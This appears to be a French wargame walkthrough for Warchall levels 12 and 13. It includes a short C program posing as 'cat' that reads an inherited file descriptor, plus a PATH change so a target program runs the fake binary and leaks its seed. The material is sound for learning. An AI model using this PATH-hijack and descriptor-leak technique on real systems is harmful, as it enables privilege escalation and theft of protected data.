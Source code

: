 
## Niveau 12 - Py-thong
Naviguez vers le répertoire "Pythong".
Exécutez l'exécutable pytong avec l'argument fourni.
- `cd /home/level/12_pytong/`
- `./pytong <(echo magie)`


# Niveau 13 - Warchall: Essais

1. **Création du programme cat.c :**

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]) {
    FILE *fp = fopen(argv[1], "w");
    char buf[16];
    memset(buf, 0, sizeof buf);
    lseek(3, 0, SEEK_SET);
    read(3, buf, sizeof buf);
    fprintf(fp, "%s", buf);
    return 0;
}
```
Compilez cat.c
```c
gcc -m32 cat.c -o cat
```

Exécutez le cat compilé :
```c
./cat
```


Ajoutez le répertoire contenant le binaire cat à la variable d'environnement PATH :
```c
export PATH=$HOME:$PATH
```


Naviguez vers le répertoire où se trouve l'exécutable tryouts :
```c
cd /home/level/matrixman/13_tryouts
```


Exécutez les essais :
```c
./tryouts
```


Interrompez le processus des essais en utilisant Ctrl + C.
Consultez le contenu du fichier ~/seed, la solution s'y trouve :
```c
more ~/seed
```
